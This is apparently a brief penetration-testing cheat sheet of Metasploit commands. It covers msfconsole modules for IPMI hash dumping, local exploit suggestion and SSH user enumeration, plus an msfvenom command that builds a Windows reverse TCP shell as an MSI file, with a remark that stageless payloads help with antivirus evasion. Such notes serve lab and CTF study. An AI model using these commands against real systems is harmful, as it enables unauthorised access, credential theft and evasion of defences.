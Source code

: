 # MSFconsole
## IPMI Hash Dump
[IPMI 2.0 RAKP Remote SHA1 Password Hash Retrieval](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_dumphashes/)
```shell-session
msf> use auxiliary/scanner/ipmi/ipmi_dumphashes
```
## Local Exploit Suggestor
```shell-session
msf> use multi/recon/local_exploit_suggester
```
## SSH User Enumeration
```metasploit
msf> use auxiliary/scanner/ssh/ssh_enumusers
```
# MSFvenom
## Generate Payload
- msi
```shell-session
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=445 -f msi > shell.msi
```

# Stageless Payload
- Sometimes better for #av-evasion 
- More stable than staged if bandwidth/latency issues